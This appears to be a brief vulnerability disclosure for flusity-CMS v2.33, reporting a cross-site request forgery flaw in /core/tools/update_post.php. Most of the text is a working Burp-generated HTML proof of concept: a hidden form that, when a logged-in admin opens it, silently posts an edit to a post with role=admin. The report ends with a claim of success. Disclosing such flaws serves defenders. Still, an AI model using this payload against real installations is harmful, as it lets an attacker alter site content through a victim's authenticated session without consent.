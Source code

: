 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /core/tools/update_post.php

![1](https://github.com/tang-0717/cms/assets/96685332/0ef5be1e-1150-42c5-b484-42c3d5fadd43)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/core/tools/update_post.php" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="mode" value="edit" />
      <input type="hidden" name="post&#95;id" value="17" />
      <input type="hidden" name="role" value="admin" />
      <input type="hidden" name="post&#95;menu" value="6" />
      <input type="hidden" name="post&#95;title" value="cs123" />
      <input type="hidden" name="post&#95;content" value="cs" />
      <input type="hidden" name="lang&#95;post&#95;title" value="" />
      <input type="hidden" name="lang&#95;post&#95;content" value="" />
      <input type="hidden" name="post&#95;tags" value="" />
      <input type="hidden" name="post&#95;status" value="draft" />
      <input type="hidden" name="post&#95;description" value="" />
      <input type="hidden" name="post&#95;keywords" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

![2](https://github.com/tang-0717/cms/assets/96685332/4dbb88ab-17b5-4dba-bb06-89031e04e666)


Successed

![3](https://github.com/tang-0717/cms/assets/96685332/7f3ebb13-a418-4170-a5ac-e8e32c652c0e)
